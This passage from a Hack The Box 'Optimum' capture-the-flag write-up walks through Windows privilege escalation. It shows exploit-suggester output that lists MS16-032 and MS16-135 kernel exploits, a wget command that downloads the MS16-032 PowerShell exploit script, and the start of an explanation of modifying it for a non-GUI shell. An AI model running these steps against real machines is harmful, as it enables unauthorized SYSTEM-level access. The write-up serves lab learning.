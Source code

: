 - **Run `windows-exploit-suggester.py`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|12:09:42(HKT)]
└> python2 /opt/windows-exploit-suggester.py --database 2023-07-28-mssb.xls --systeminfo systeminfo.txt
[...]
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[...]
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[...]
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
[...]
```

> After trying different KEs, I found that **MS16-032** KE works.

**According to [this blog post](https://www.puckiestyle.nl/windows-privilege-escalation/), we can escalate our privilege to SYSTEM via:**

- **Download the PowerShell exploit script:** (From [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032))

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|12:36:07(HKT)]
└> wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/master/MS16-032/MS16-032.ps1
[...]
```

- **Modify the exploit:**

Since we're inside a limited shell, we can't escalate our privilege in the default version of the MS16-032 script, as **it'll create a pop-up `cmd.exe` window** on the target machine, which we can't access that window because we're not in GUI (Graphical User Interface) mode.
